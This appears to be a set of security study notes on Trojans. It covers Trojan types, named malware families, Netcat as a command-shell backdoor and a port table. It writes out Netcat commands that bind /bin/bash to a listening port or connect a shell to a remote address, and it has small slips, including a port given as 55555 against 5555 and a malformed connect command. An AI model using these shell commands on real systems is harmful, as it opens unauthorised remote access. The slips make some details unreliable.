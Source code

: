 ### Trojan

- Software that appears to perform a desirable function but instead performs malicious activity
- To hackers, it is a method to gain and maintain access to a system
- Trojans are means of delivery whereas a backdoor provides the open access

#### Types of Trojans

- **Remote Access Trojan** (RAT): providing attackers with full control over the victim's system, enabling them to remotely access files, private conversations, accounting data, and others
  - PoisonIvy
  - MoSucker
  - Blackhole
- **Backdoor Trojan**: RAT has UI, the client component, whereas a backdoor does not
- **Botnet Trojan**: infecting numerous of computers across a large geographical area to create a network of bots that is controlled through a Command and Control (C&C) center
  - Necurs
  - Mirai
- **E-banking Trojans**: intercepting victim's account informed before the system can encrypt it, and send it to the attacker's C&C center
  - Zeus
- **Proxy Server Trojan**: usually a standalone application that allows remote attackers to use the victim's computer as a proxy to connect to the Internet
- **Covert Channel Tunneling Trojan** (CCTT): a RAT, creating arbitrary data transfer channels in previously authorized data streams
- **Defacement Trojan**: once spreading over the system, can destroy or change the entire content present in a database
- **Command Shell Trojan**: providing a backdoor to connect to through command-line access
  - **Netcat**
    - "Swiss army knife" of tcp/ip hacking
    - Providing all sorts of control over a remote shell on a target
    - Can connect over TCP or UDP, from any port
    - Offering DNS forwarding, port mapping and forwarding and proxying
    - Connect: `nc -e IPaddress Port#`
    - Open a listening port on 55555 from target machine: `nc -l -p 5555 -e /bin/bash`
  - **CryptCat**: encrypted version of netcat

#### Some Trojan Port Numbers

| Trojan Name       | Port    |
| ----------------- | ------- |
| Death             | 2       |
| Senna Spy         | 20      |
| Hackers Paradise  | 31,456  |
| TCP Wrappers      | 421     |
| Doom, Santaz Back | 666     |
| Silencer, WebEx   | 1001    |
| RAT               | 1095-98 |
| SubSeven          | 1243    |
| Shiva-Burka       | 1600    |
| Trojan Cow        | 2001    |
| Deep Throat       | 6670-71 |
| NetBus            | 12345-6 |
| Whack a Mole      | 12361-3 |
| Back Orifice      | 31337,8 |